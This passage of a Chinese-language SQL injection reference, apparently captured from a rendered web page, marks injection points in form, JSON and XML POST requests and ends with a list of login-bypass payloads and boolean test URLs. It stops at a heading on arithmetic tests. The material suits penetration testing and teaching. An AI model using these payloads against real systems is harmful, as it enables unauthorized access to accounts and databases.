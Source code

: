 - POST - Form Data

    在具有 Content-Type 为 application/x-www-form-urlencoded 的标准 HTTP POST 请求中，注入将类似于 GET 请求中的 URL 参数。它们位 于HTTP 头信息下方，但仍可以用相同的方式进行利用。
    ```
    POST / HTTP/1.1
    Host: xxx.com
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 39
    username=xxx&email=xxx@xxx.com  <-----注入点
    ```

- POST - JSON

    在具有 Content-Type 为 application/json 的标准 HTTP POST 请求中，注入通常是 JSON{"key":"value"} 对的值。该值也可以是数组或对象。虽然符号是不同的，但值可以像所有其他参数一样注入。（提示：尝试使用 `'`，但要确保 JSON 使用双引号，否则可能会破坏请求格式。）
    ```
    POST / HTTP/1.1
    Host: xxx.com
    Content-Type: application/json
    Content-Length: 56
    {
    "username":"xxx",               <-----注入点
    "email":"xxx@xxx.com"           <-----注入点
    }
    ```

- POST - XML

    在具有 Content-Type 为 application/xml 的标准 HTTP POST 请求中，注入通常在一个内部。虽然符号是不同的，但值可以像所有其他参数一样注入。（提示：尝试使用 `'`）
    ```
    POST / HTTP/1.1
    Host: xxx.com
    Content-Type: application/xml
    Content-Length: 79
    <root>
    <username>xxxxx</username>      <-----注入点
    <email>xxx@xxx.com</email>      <-----注入点
    </root>
    ```

**检测注入**

通过在应用程序中触发错误和布尔逻辑，可以最轻松地检测易受攻击的参数。提供格式错误的查询将触发错误，并且使用各种布尔逻辑语句发送有效查询将触发来自Web服务器的不同响应。

> 注：True 或 False 语句应通过 HTTP 状态码或 HTML 内容返回不同的响应。如果这些响应与查询的 True/False 性质一致，则表示存在注入。

- 万能密码
    ```
    admin' --
    admin' #
    admin'/*
    ' or 1=1--
    ' or 1=1#
    ' or 1=1/*
    ') or '1'='1--
    ') or ('1'='1--
    ' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--
    ```
- 逻辑测试
    - 1.php?id=1 or 1=1     -- true
    - 1.php?id=1' or 1=1    -- true
    - 1.php?id=1" or 1=1    -- true
    - 1.php?id=1 and 1=2    -- false
    - 1.php?id=1-false
    - 1.php?id=1-true
- 算术